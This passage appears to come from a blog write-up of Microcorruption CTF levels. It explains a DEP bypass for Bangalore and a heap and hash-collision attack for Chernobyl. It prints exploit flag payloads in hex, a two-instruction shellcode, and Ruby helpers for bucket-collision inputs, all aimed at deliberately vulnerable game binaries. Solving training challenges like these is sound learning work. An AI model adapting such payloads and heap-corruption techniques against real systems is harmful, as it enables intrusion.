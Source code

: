 My first shell code ever - I've actually kept it (almost properly) commented in my notes. Of course my 0x1b1 bytes pale in comparison with the optimal 0x19 that the hall of fame tables report. But then again: no spoiling, at some point the best solution will be *obvious*.

**Flag**: `'46' * 99 + '74424454445444544454754345544e45' + '46' * 316 + '3134'`

 - Bangalore

The DEP challenge it is, and another fun one too. My easy flag does the following: overwrite the return address of `<login>` and have 0x40 already in place on the stack; the flow then goes to `<mark_page_executable>` which marks the stack area as executable; return address from there was also already overwritten - we return straight into our shellcode at 0x4006; from there it's just two instructions to get the door open:

    3240 00ff      mov #0xff00, sr
    3040 1000      br #0x0010

Now as I've been looking over the code I couldn't help but notice instructions that look like they were left there intentionally (specifically between 0x4508 and 0x4510). I didn't use them, but then the hall of fame tables report the shortest flag at 0x18 bytes long. My 0x20 byte long flag doesn't look that bad though.

**Flag**: `'46' * 16 + 'ba44400000000640324000ff30401000'`

 - Chernobyl

An interesting and in my opinion more realistic challenge, and also a major set-up in terms of points. There are no obvious easily exploitable vulnerabilities, but we have a dynamic heap just like we did in Algiers (and yes that will be the element we exploit), and we have a hash table implementation. This is the last challenge I've done, though not without a code look-see.

First thing one has to discover is that we can actually add new accounts using the command `new [user] [pin]`. Discovering also that we can chain commands with the `;` character at the end is very useful, though not crucial to opening the door.

The hash table here uses the dynamic heap and stores our input - so heap vulnerability seems to be the way to go. After running the code in the simulator we know that at the beginning there are 0x8 buckets and that the hash functions is straightforward:

{% highlight ruby %}
def chash(str)
  str.unpack('c*').inject(0) do |h, x|
    x += h
    h = x
    h <<= 5
    h -= x
  end & 0xffff
end
{% endhighlight %}

Having that we can easily write some helpers to generate inputs that will end up in our chosen bucket:

{% highlight ruby %}
@used = Hash.new
def cname(prefix: '', bucket: 0)
  token = 'a'
  loop do
    token.next! while (chash(prefix + token) & 7) != bucket
    if @used.has_key? (prefix + token)
      token.next!
      next
    end
    @used[prefix + token] = true
    break
  end
  prefix + token
end

def ccmd(name); 'new ' + name + ' 1;'; end